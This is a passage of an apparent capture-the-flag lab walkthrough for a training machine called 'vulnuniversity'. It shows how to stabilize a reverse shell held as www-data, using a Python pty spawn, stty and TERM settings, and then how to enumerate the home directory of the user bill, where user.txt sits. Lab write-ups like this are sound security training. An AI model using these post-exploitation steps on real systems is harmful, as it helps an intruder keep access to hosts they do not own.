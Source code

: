 Although not mandatory, my preference is to stabilize shells where possible to avoid accidental loss of access. The target machine seems to have `python` installed which makes this easy for us.

On the target machine, we run the following command:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

<br />

Then put it in the background, which will briefly return us to our local shell:

```
Ctrl + Z
```

<br />

Input the following command locally:

```
stty raw -echo && fg
```

<br />

This should bring us back to the reverse shell where we enter the final command:

```
export TERM=xterm-256-color
```

<br />

Now that we have a stabilized shell, our next step is to check the `/home` directory for any hints or pointers.

```
www-data@vulnuniversity:/$ cd /home
www-data@vulnuniversity:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jul 31  2019 .
drwxr-xr-x 23 root root 4096 Jul 31  2019 ..
drwxr-xr-x  2 bill bill 4096 Jul 31  2019 bill
```

<br />

There is only one user folder we can list, which we also have access to.

```
www-data@vulnuniversity:/home$ cd bill
www-data@vulnuniversity:/home/bill$ ls -la
total 24
drwxr-xr-x 2 bill bill 4096 Jul 31  2019 .
drwxr-xr-x 3 root root 4096 Jul 31  2019 ..
-rw-r--r-- 1 bill bill  220 Jul 31  2019 .bash_logout
-rw-r--r-- 1 bill bill 3771 Jul 31  2019 .bashrc
-rw-r--r-- 1 bill bill  655 Jul 31  2019 .profile
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
```

